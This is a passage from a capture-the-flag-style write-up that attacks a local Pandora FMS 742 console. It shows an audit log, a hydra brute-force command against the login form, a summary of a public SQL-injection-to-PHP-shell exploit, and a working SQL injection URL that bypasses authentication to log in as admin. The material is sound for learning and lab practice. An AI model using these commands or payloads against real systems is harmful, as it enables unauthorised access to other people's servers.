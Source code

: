 I read the code to the site, trying to find flaws in the login or API code. I checked the logs that were in the same folder. 

```bash
$ cat audit.log
2021-06-11 17:11:48 - admin - Logon - 192.168.220.11 - Logged in
2021-06-11 17:28:54 - admin - User management - 192.168.220.11 - Created user matt
2021-06-11 17:29:06 - admin - User management - 192.168.220.11 - Updated user matt
2021-06-11 17:29:21 - admin - User management - 192.168.220.11 - Added profile for user matt
2021-06-11 17:29:43 - admin - User management - 192.168.220.11 - Added profile for user matt
2021-06-11 17:29:56 - matt - Logon - 192.168.220.11 - Logged in
2021-06-16 23:24:12 - admin - Logon - 127.0.0.1 - Logged in
2021-06-16 23:24:40 - admin - User management - 127.0.0.1 - Updated user admin
2021-06-16 23:24:57 - admin - User management - 127.0.0.1 - Updated user matt
2021-06-17 00:09:46 - admin - Logon - 127.0.0.1 - Logged in
2021-06-17 00:11:54 - admin - User management - 127.0.0.1 - Created user daniel
2021-06-17 00:12:08 - admin - User management - 127.0.0.1 - Added profile for user daniel
2021-06-17 21:10:18 - N/A - No session - 127.0.0.1 - Trying to access without a valid session
2021-06-17 21:10:28 - N/A - No session - 127.0.0.1 - Trying to access without a valid session
2021-06-17 21:10:44 - matt - Logon - 127.0.0.1 - Logged in
```

This gave some potential usernames, so I tried to brute force the loging. 

```bash
$ cat users.txt 
admin
matt

$ hydra -l users.txt -P /usr/share/wordlists/rockyou.txt -f -u -e snr -t64 -m '/pandora_console/index.php?login=1:nick=^USER^&pass=^PASS^&login_button=Login:incorrect' localhost http-post-form
```

I left that running for a while with no success. 

I went back to look at the site and saw version number 742. I tried searching for 'Pandora FMS 742 exploit'. The first result was a [post on vulnerabilities found in Pandora FMS 742](https://blog.sonarsource.com/pandora-fms-742-critical-code-vulnerabilities-explained). The next one was a [repository with a script exploiting the vulnerabilities](https://github.com/shyam0904a/Pandora_v7.0NG.742_exploit_unauthenticated). The script exploits an SQL Injection vulnerability in the way sessions are handled in some files to log in as the admin user. Then it gets remote code execution by uploading a PHP file that executes commands passed in the `test` parameter and accessing the file. 

I did the exploit manually to be sure I understood it better. First I navigated to `http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20-`. It gave me a blank page, but when I went back to the index page, I was logged in as admin. 
